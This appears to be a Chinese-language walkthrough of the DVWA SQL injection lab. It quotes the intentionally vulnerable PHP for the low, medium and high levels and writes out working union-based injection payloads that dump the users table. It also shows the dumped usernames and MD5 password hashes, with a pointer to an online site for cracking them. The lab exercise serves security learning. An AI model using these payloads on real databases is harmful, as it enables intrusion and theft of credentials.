 <center>SQL InjectionSQL注入</center>







[toc]









## SQL InjectionSQL注入

> SQL注入







### 1. low

> 低级
>
> 代码

```php

<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

```

> 没有做任何过滤,查询两列，所以sql语句也只能查两个。 `'`单引号，字符型注入。



SQL注入思路

> 任务是：`脱库`，获取所有数据。

1. 确认是否有注入

```shell
1' or '1'='1
```

2. 获取当前数据库

```sql
库名
1' union select 1,database()#  

表名
1' union select 1,group_concat(table_name) COLLATE utf8_general_ci from information_schema.tables where table_schema=database() #

表字段名
1' union select 1,group_concat(column_name) COLLATE utf8_general_ci from information_schema.columns where table_name='users' #
```

3. 脱库

```shell
1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(user,password) from users #
1' or 1=1 union select * from users #
```

> 获取到数据, 密码对应的用户名等信息。

```shell
1adminadmin,2GordonBrown,3HackMe,4PabloPicasso,5BobSmith
Surname: admin202cb962ac59075b964b07152d234b70,gordonbe99a18c428cb38d5f260853678922e03,13378d3533d75ae2c3966d7e0d4fcc69216b,pablo0d107d09f5bbe40cade3de5c71e9e9b7,smithy5f4dcc3b5aa765d61d8327deb882cf99
```

> [md5](https://cmd5.com/) 解密获取明文密码。牛皮。







### 2. medium

> 中级
>
> 代码

```php

<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

```

> `mysqli_real_escape_string`转义特殊字符 $id 没有引号，数字型注入。

> burp抓包，该包，用sql注入思路获取数据。

```shell
1. 确认是否有注入
id=1 or 1=1 

2. 获取数据
id=1 or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(user,password) from users #&Submit=Submit
```





### 3. high

> 高级
>
> 代码

```php
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

```

> 多了`LIMIT 1`只查询一行数据。

```shell
# #  注释后面的就行
1' or 1=1 #

id=1' or 1=1 union select group_concat(user_id,first_name,last_name),group_concat(user,password) from users #
```

